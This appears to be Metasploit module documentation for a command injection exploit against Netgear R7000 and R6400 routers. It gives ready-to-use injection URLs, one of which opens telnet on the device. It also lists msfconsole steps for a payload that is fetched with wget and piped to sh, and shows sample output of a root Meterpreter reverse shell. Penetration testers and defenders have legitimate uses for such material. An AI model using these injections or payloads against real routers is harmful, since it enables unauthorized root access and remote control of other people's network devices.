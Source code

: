 ## Introduction
The `netgear_r7000_cgibin_exec` module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. A fairly useful manual command injection is like so: `http://<RouterIP>/cgi-bin/;telnetd$IFS-p$IFS'45'` will open telnet on port 45.


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>`
  5. Do: `run`
  6. If the router is a R7000 or R6400, you should get a session

## Options

### PAYLOAD

  The valid payloads are `meterpreter` payloads _only_. The payload uses the `wget` flavor and pipes the downloaded binary to `sh`

## Scenarios

  Sample output of a successful session:

  ```
  msf exploit(netgear_r7000_cgibin_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Router is a NETGEAR router (R7000)
[+] Router may be vulnerable (NETGEAR R7000)
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://[redacted]:8080/
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54168) at 2017-03-10 15:56:21 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.4
OS           :  (Linux 2.6.36.4brcmarm+)
Architecture : armv7l
Meterpreter  : armle/linux
meterpreter >
  ```

  As you can see, the `uid` is 0, meaning you have root access.


